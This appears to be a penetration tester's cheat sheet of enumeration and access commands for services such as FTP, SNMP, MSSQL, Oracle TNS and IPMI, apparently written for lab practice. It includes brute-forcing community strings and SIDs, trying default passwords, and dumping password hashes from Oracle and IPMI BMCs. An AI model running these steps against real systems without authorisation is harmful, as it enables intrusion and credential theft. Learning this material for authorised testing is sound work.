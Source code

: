 # **Services**

## **Principles**

| No.      | Principle                          |
| ----------- | ------------------------------------ |
| `1`       | There is more than meets the eye. Consider all points of view.  |
| `2`       | Distinguish between what we see and what we do not see. |
| `3`    | There are always ways to gain more information. Understand the target |


## **Services**
!!! tip "Default Passwords"

    Try out known default passwords for ANY services that we discover, as these are often left unchanged and can lead to quick wins.

### <span class="red-command">SSH</span>
Configuration file stored at - <code class="invert">/etc/ssh/sshd_config</code>

```
ssh -v r3dp4rrot@<server_ip> -o PreferredAuthentications=password
```

### <span class="red-command">RDP</span>
Fingerprinting RDP via nmap
```
nmap -sV -sC <server_ip> -p3389 --script rdp*
```

Initiate an RDP Session
```
xfreerdp /u:<user> /p:"<pass>" /v:<rdp_server_ip>
```

### <span class="red-command">WinRM</span>
WinRM relies on TCP ports `5985` and `5986` for communication, with the last port `5986 using HTTPS`.

```
evil-winrm -i <server_ip> -u <user> -p <password>
```

### <span class="red-command">FTP</span>
Control channel on TCP port 21.  
Data transfer channel on TCP port 20.  
File Transfer Protocol (TFTP) uses TCP.  
Trivial File Transfer Protocol (TFTP) uses UDP.  

Configuration file stored at - <code class="invert">/etc/vsftpd.conf</code>  
Connecting to an FTP server and getting the server settings.
```
ftp <server_ip>
> status
```

Recursive directory listing
```
> ls -R
```

Download a file from the ftp server
```
> get Flags\ flag.txt
OR 
> cd Flags
> mget flag.txt
```

Upload a file to the ftp server
```
> put some.exe
```

Connecting to the FTP server using netcat
```
nc -nv <server_ip> 21
```

Connecting to the FTP server using telnet
```
telnet <server_ip> 21
```

Connect to a TLS enabled FTP server
```
openssl s_client -connect <server_ip>:21 -starttls ftp
```

### <span class="red-command">SMB</span>
Samba server listens on TCP ports `137, 138, 139`, but CIFS uses TCP port `445` only.  
Configuration file stored at - <code class="invert">/etc/samba/smb.conf</code>

### <span class="red-command">NFC</span>


### <span class="red-command">DNS</span>

[`Learn how to configure a DNS server`](https://wiki.debian.org/Bind9#Introduction){target=_blank}

### <span class="red-command">SMTP</span>

### <span class="red-command">IMPA/POP3</span>

```
# List all the INBOXs
curl -k --url 'imaps://10.129.92.23' --user username:passwd -X 'LIST "" *'

# Select the INBOX
curl -k --url 'imaps://10.129.92.23' --user username:passwd -X 'SELECT "INBOX_NAME"'
OR
curl -k --url 'imaps://10.129.92.23/INBOX_NAME' --user username:passwd
```

```
curl -v -k --url 'imaps://10.129.92.23/$MAILBOX' --user 'username:passwd' -X 'FETCH 1 BODY[]'
```

```
# connect to IMAP via SSL/TLS
openssl s_client -connect 10.129.14.128:imaps

# connect to POP3 via SSL/TLS
openssl s_client -connect 10.129.14.128:pop3s

```

### <span class="red-command">SNMP</span>
[`Learn how to configure an SNMP daemon`](http://www.net-snmp.org/docs/man/snmpd.conf.html)

```
# bruteforcing community strings
onesixtyone -c /opt/SecLists/Discovery/SNMP/snmp-onesixtyone.txt <server_ip>

# Bruteforcing oids with braa
braa public@<server_ip>:.1.3.6.*

snmpwalk -v2c -c <community_str> <server_ip>
```

### <span class="red-command">MySQL</span>
The configuration files of MySQL server are loacted at - `/etc/mysql/mysql.conf.d/mysqld.cnf`
```
# connect to a MySQL server using creds
mysql -u username -pPassword -h <server_ip>
```

### <span class="red-command">MSSQL</span>
Footprinting the MSSQL service using Nmap
```
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 10.129.3.154
```

Ping the MSSQL server using Metasploit
```
msfconsole
> use use auxiliary/scanner/mssql/mssql_ping
> set rhosts <mssql_server_ip>
```

Connect to MSSQL Server using Impacket's mssqlclient.py script
```
python3 examples/mssqlclient.py username@<mssql_server_ip> -windows-auth
```

### <span class="red-command">Oracle TNS</span>
Bruteforcing SIDs using nmap
```
nmap <oracle_db_ip> -p1521 -sCV --script oracle-sid-brute
```

Enumerating the oracle TNS using odat.py
```
python3 ./odat.py all -s <oracle_db_ip>
```

Get auth credentials using the obtained SID
```
python3 ./odat.py all -s <oracle_db_ip> -d <SID>
```

Attempting to login as sysdba via obtained credentials
```
sqlplus <user>/<pass>@<oracle_db_ip>/XE as sysdba
```

Getting password hashes from the connected DB
```
SQL> select name, password from sys.user$;
```

### <span class="red-command">IPMI</span>
IPMI communicates over port `623 UDP`.  
Systems that use the IPMI protocol are called `Baseboard Management Controllers (BMCs)`. BMCs are typically implemented as embedded ARM systems running Linux, and connected directly to the host's motherboard. BMCs are built into many motherboards but can also be added to a system as a PCI card.  

If we can access a BMC during an assessment, we would gain full access to the host motherboard and be able to monitor, reboot, power off, or even reinstall the host operating system. <code class="invert">Gaining access to a BMC is nearly equivalent to physical access to a system</code>. Many BMCs (including HP iLO, Dell DRAC, and Supermicro IPMI) expose a web-based management console, some sort of command-line remote access protocol such as Telnet or SSH, and the port 623 UDP, which, again, is for the IPMI network protocol. 

Fingerprinting the service running on UDP port 623.
```
sudo nmap -sU --script ipmi-version -p 623 <subdomain>
```

Metasploit version scan
```
msfconsole
msf6 > use auxiliary/scanner/ipmi/ipmi_version 
msf6 auxiliary(scanner/ipmi/ipmi_version) > set rhosts <server_ip>
msf6 auxiliary(scanner/ipmi/ipmi_version) > show options
msf6 auxiliary(scanner/ipmi/ipmi_version) > run
```

Obtain the password hash for ANY valid user account on the BMC via [`Metasploit`](https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_dumphashes/){target=_blank}.
```
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.129.42.195
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > show options 
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run

msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) >> set PASS_FILE /opt/SecLists/Passwords/bt4-password.txt
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run
```


